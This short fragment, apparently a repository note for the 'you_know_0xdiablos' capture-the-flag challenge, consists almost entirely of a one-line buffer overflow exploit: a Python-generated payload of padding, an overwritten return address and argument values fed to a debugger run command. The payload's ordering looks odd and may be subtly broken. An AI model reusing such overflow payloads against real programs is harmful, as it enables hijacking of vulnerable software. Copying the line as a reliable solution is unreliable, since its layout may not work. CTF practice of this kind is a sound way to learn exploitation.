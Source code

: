 # you_know_0xdiablos

```
r <<< $(python -c 'print "0xdeadbeef 0xc0ded00d" + "A"*188+"\xe2\x91\x04\x08" ')
```
